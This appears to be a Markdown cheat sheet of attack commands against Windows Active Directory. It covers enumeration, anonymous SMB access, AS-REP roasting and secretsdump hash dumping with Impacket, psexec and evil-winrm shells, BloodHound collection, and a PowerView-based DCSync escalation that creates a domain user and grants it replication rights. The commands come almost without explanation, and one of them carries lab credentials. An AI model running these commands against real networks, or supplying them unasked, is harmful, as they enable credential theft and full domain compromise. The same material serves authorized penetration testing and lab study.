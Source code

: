 # Active Directory

## Enumeration

Nmap: `sudo nmap -n -sV --script "ldap* and not brute" <IP>`

Enum4Linux: `enum4linux <IP>`

Kerbrute: `./kerbrute userenum -d <Domain Controller> --dc <Target IP> /<Wordlst>`

## SMB

If Port 5985 is OPEN, you may be able to access a shell with valid SMB Credentials

SMB Shell: `evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

SMB Connection: `smbclient \\<IP>\<Share> -U '<Username>'`

Anonymous Access:

`smbmap -H <IP>`

`smbclient \\\\<IP>\<Share> -N`

`smbclient \\\\<IP>\\<Share> -c 'recurse;ls' -N`

## Impacket Scripts

AS-REP Roasting

GetNPUsers: 

`sudo python3 GetNPUsers.py <Domain Controller>/<Valid Username> -no-pass`

`sudo python3 GetNPUsers.py <Domain Controller>/ -dc-ip <IP> -request`

Hash Dump After DCSync

SecretsDump: `sudo python3 secretsdump.py <Domain Controller>/<New Username>@<IP>`

Remote PowerShell Connection

PsExec: `python psexec.py <Domain Controller>/<Username>:<Password>@<IP>`

## Bloodhound

Install: `sudo pip3 install bloodhound && wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.0.3/BloodHound-linux-x64.zip && unzip BloodHound-linux-x64.zip && mv BloodHound-linux-x64/BloodHound . && rm -rf BloodHound-linux-x64.zip BloodHound-linux-x64/`

Get Info: `bloodhound-python -d <Domain Controller> -u <Valid Username> -p <Password> -gc <Gloabl Catalog> -c all -ns <IP>`

Neo4j Console: `neo4j console`

# PowerView

Download: `curl -O https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1`

# DCSync Attack 

`net user <New Username> <New Password> /add /domain`

`net group "Exchange Windows Permissions" <New Username> /add /domain`

Import PowerView

`$pass = convertto-securestring '<New Password>' -AsPlainText -Force`

`$cred = New-Object System.Management.Automation.PSCredential('<Domain Controller>\<New Username>', $pass)`

`Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=<dc>,DC=<dc>" -PrincipalIdentity "<New Username>" -Rights DCSync`

# Extra Resources

[What is AS-REP Roasting?](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)

[Kuberos DCSync Attacks Explained](https://www.qomplx.com/kerberos_dcsync_attacks_explained/)

[PowerView 3.0 Tips & Tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
